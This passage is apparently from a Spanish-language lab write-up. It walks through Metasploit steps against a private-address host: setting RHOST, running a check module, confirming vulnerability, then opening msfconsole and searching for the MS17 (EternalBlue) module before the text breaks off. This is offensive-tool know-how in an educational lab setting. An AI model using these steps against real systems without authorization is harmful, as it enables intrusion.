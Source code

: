 
Modificamos el módulo
```
set RHOST 192.168.1.20
```

<p align="center">
    <img src="../img/Pasted_image_20241226133824.png" width="500">
</p>


Ejecutamos el módulo
```
run
```

<p align="center">
    <img src="../img/Pasted_image_20241226133859.png" width="500">
</p>


Vemos que es vulnerable tanto con la herramienta con *Nmap* como con el módulo de *Metasploit*. Por lo que vamos a explotar esta vulnerabilidad con *Mestasploit*.

---

## Explotación

Abrimos *metasploit*
```
msfconsole init -q
```

<p align="center">
    <img src="../img/Pasted_image_20241226133414.png" width="500">
</p>

Buscamos el módulo
```
search ms17
```

<p align="center">